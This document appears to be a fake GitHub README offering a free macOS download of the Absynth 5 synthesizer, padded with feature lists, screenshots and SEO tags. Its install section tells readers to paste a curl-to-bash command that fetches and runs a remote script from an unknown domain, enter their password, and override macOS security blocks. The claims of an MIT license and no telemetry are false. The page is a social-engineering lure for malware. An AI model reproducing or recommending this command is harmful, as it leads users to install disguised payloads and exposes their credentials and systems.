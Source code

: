 <p align="center">
  <img src="https://i.ibb.co/sJXDmZgV/1684162881-icon.webp" alt="Absynth 5 macOS Banner" />
</p>

<h1 align="center">Absynth 5 for macOS</h1>

<p align="center">
  🌌 Create evolving soundscapes, ambient textures, and experimental tones with Native Instruments’ iconic hybrid synthesizer.  
  <br><br>
  ✅ M1/M2/M3 Native Support  
  ✅ Works on Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/229" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20ABSYNTH%205%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Absynth 5 for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/ZRbFRdWR/1627742665-1-min.jpg" alt="Absynth 5 UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Absynth 5 for macOS?

**Absynth 5** is a semi-modular synthesizer designed for deep, expressive sound design. Developed by Native Instruments, it’s renowned for its evolving pads, abstract textures, and complex modulation matrix. Perfect for ambient music, film scoring, experimental production, and sound exploration.

Use it as a standalone app or plugin (VST/AU), and unlock an unmatched level of sonic complexity on your Mac.

---

## ✅ Why Choose Absynth 5?

- 🌫️ **Advanced Morphing Oscillators**  
- 🎛️ **Semi-Modular Architecture with Deep Modulation**  
- 🎨 **Ideal for Pads, Textures, and Atmospheric Sounds**  
- 🎚️ **Flexible Effects Engine with Surround Support**  
- 🔄 **Envelope-Controlled Sound Evolution**  
- 🧠 **Perfect for Soundtracks, Games, Ambient & Sci-Fi**  
- 🎹 **Works as Standalone or VST/AU Plugin**  
- 🍎 **Apple Silicon Support (M1/M2/M3)**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/VpQzyMjd/1627742665-2-min.jpg" alt="Absynth 5 Sound Matrix View" />
  <br><br>
  <img src="https://i.ibb.co/8gGQXh9m/1627742666-3-min.jpg" alt="Absynth Patch Browser macOS" />
</p>

---

## 🚀 Key Features

- Hybrid synthesis (subtractive, FM, sampling)  
- 3 oscillators + complex waveform editor  
- Envelopes with unique multi-breakpoint curves  
- Mutator tool for randomizing patches  
- MIDI learn & automation support  
- Built-in effects: resonators, delays, filters, more  
- Export patches to Komplete instruments  
- Plugin support: VST, AU (64-bit)

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Absynth 5 manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Synthesizer+Plugin-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Use-Ambient+Film+Sound+Design-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Absynth 5 – Sonic Exploration Unleashed

Thanks for using **Absynth 5 for macOS**.  
Dive deep into modulation, morphing, and ambient tone shaping.

---

## 🧭 Usage Context

This software is intended for offline creative production in music, sound design, and audio experimentation.  
All patch editing and playback occur locally on-device — no cloud sync, no telemetry, no dependencies.

---

## 🔍 Tags

```text
absynth 5 for mac download, native instruments absynth macos m1, ambient pad synth mac vst au, absynth standalone plugin for macbook, absynth 5 cinematic sound design mac, experimental synth software for macos, deep modulation synth mac download, native hybrid synthesizer apple silicon, absynth 5 morphing oscillator mac, absynth plugin for film scoring mac, sound exploration synth tool mac, absynth 5 audio plugin download mac, abstract synthesis engine for mac, evolving pads synthesizer native mac, native instruments absynth pro mac version
